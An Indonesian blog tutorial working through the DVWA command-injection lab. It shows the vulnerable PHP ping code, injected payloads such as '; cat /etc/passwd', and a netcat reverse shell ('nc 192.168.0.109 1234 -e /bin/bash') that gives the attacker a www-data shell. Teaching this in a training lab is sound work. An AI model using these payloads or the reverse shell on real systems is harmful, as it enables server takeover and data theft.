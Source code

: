 +++
title = "DVWA - Command Injection"
date = 2024-10-13T17:04:53+07:00
cover = ""
summary = "Command injection is a simple yet still pretty common and relevant vulnerability in the real world even nowadays..."
tags = [ "DVWA", "web", "hacking", "command injection", "reverse shell" ]
categories = "command injection"
series = [ "DVWA" ]
series_order = 2
+++

Sesuai dengan namanya, ***Command Injection*** adalah kerentanan pada aplikasi web yang memungkinkan seorang penyerang dapat meng-*execute* perintah-perintah sistem operasi. Misalnya, *commands* sistem operasi Linux ada **`pwd`**, **`ls`**, **`cat`**, dan lain sebagainya. *Command injection* dapat terjadi disebabkan oleh tidak kurangnya perhatian seorang developer web terhadap **validasi input**.[^1]

Untuk membuktikan, kita mula-mula akan melihat demonstrasinya command injection terlebih dahulu melalui DVWA yang sudah kita *install* dan *set up* di artikel sebelumnya. Setelah login ke DVWA dengan credensial default, <mark> **admin:password**</mark>, pergi ke menu **Command Injection**. Di sana, ada *form* **`ping`** dan kita bisa meng-*input*-kan *ip address* untuk di-**`ping`**. Kita bisa coba dengan memasukkan *ip address* komputer kita dan nanti *output* **`ping`**-nya akan tampil di bawah *form* tersebut.

<div style="display: flex; justify-content: center;">
  <video width="80%" controls autoplay loop muted>
    <source src="/commandinjection/vid1.mp4" type="video/mp4">
  </video>
</div>

Sekarang, kita akan lihat *source code* yang ada di belakangnya, berikut:

> **Notes:** *Source code*-nya bisa dilihat di bagian bawah halaman website pada bagian **"View Source"**

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

Perhatikan bahwa pada variable **`$cmd`** yang mengambil input dari *user* untuk kemudian dieksekusi, yaitu $cmd = **`shell_exec( 'ping  ' . $target );`** jika DVWA di-host di server Windows dan **`$cmd = shell_exec( 'ping  -c 4 ' . $target );`** jika DVWA di-*deploy* di Linux, tidak ada validasi / sanitasi *input*-nya. Itu artinya, kita dapat melakukan *command injection* dengan mem-*bypass* perintah **`ping`** di server dengan karakter yang umum digunakan untuk melakukan serangan *command injection*, yaitu *semicolon* **(:)** sehingga *attacker* dapat memberikan perintah lain ke server.

<mark> Karakter *semicolon* **(;)** adalah sebuah *standard item* dalam *environment* UNIX/Linux untuk memisahkan *commands*</mark>.[^2]

Misalnya, saya ingin melihat isi file **`/etc/passwd`** di server, saya dapat menambahkan karakter semicolon **(;)** yang diikuti dengan perintah **`cat /etc/passwd`** setelah menuliskan *ip address* pada *form* **`ping`** tersebut:

{{< collapse summary="**Info: /etc/passwd**" open=false >}}

File **`/etc/passwd`** dalam sistem operasi linux menyimpan semua data user yang terdaftar di sistem operasi tersebut, baik *system/service user* seperti **www-data**, **mysql**, **sshd**, dan lainnya maupun *login user* seperti saya sendiri sebagai pengguna komputer.

Sebagai ilustrasi, dalam mesin saya, berikut adalah isi file **`/etc/passwd`**-nya:

![ss1](/commandinjection/ss1.png "/etc/passwd")

{{< /collapse >}}

![ss2](/commandinjection/ss2.png "command injection cat /etc/passwd")

Kita bisa lihat *output* yang ditampilkan di website, mula-mula perintah **`ping -c 4 192.168.0.109`** dieksekusi (menge-**`ping`** / mengirimkan paket **ICMP** - *Internet Control Message Protocol* ke *ip address* 192.168.0.109 ) terlebih dahulu ke server, kemudian perintah **`cat /etc/passwd`** dieksekusi setelahnya.

Atau jika kita ingin perintahnya lebih sederhana, kita bisa hanya mengetikkan perintah **`; cat /etc/passwd`** tanpa harus mengetikkan ip address-nya terlebih dahulu karena tadi, fungsi karakter *semicolon* adalah memisahkan dua perintah atau lebih, jadi perintah pertama akan dieksekusi (jika ada) dan kemudian perintah kedua akan dieskekusi.

![ss3](/commandinjection/ss3.png "simpler command injection cat /etc/passwd")

Sekarang kita paham bahwa dalam konteks ini, kerentanan *command injection* di website mengakibatkan *attacker* dapat mengeksekusi perintah sistem operasi apapun dari website. Itu juga berarti bahwa *attacker* dapat melakukan [***reverse shell***](https://integrasolusi.com/blog/pentesting-perbandingan-bind-shell-dan-reverse-shell/) untuk mendapatkan *shell* server. Ketika *attacker* sudah berhasil mendapatkan *shell*, itu artinya server sudah berhasil "dibajak". 

Untuk demonstrasi *reverse shell*, saya akan menggunakan [**`netcat`**](https://www.geeksforgeeks.org/introduction-to-netcat/):

Pertama, kita perlu mengecek / memastikan dulu bahwa **`netcat`** / **`nc`** ter-*install* di dalam di server dengan mengetikkan perintah berikut di *form* **`ping`**:

```shell
; whereis nc
```

![ss4](/commandinjection/ss4.png "checking netcat in the server")

**`Netcat`** ada di dalam server. Kita bisa melakukan *reverse shell* sederhana dengan **`netcat`**. 

Mula-mula, kita jalankan **`netcat`** di komputer kita (sebagai *attacker*) terlebih dahulu untuk melakukan *listening* paket:

```shell
nc -lvnp 1234
```

> **Keterangan:**  
> - <mark> -l</mark> : melakukan *listening*.
> - <mark> -v</mark> : melakukan *verbosity*.
> - <mark> -n</mark> : *ip address* tanpa DNS.
> - <mark> -p</mark> : port yang akan melakukan *listening*.
> - <mark> 1234</mark> : nomor port-nya.  
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

Perintah di server (di *form* **`ping`**):

```shell
nc 192.168.0.109 1234 -e /bin/bash
```

> **Keterangan:**  
> - <mark> 192.168.0.109</mark> : *ip address attacker*.
> - <mark> 1234</mark> : port *attacker* yang sedang *listening*.
> - <mark> -e</mark> : *binary* / perintah yang mau dieksekusi.
> - <mark> /bin/bash</mark> : memberi akses BASH shell ke *attacker*. 
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

<div style="display: flex; justify-content: center;">
  <video width="100%" controls autoplay loop muted>
    <source src="/commandinjection/vid2.mp4" type="video/mp4">
  </video>
</div>

Dan kita berhasil mendapatkan *shell* server-nya sebagai user **www-data**.


[^1]: https://owasp.org/www-community/attacks/Command_Injection
[^2]: https://www.ibm.com/support/pages/meaning-semi-colon-colon-unix-script-sterling-gentranserver-unix
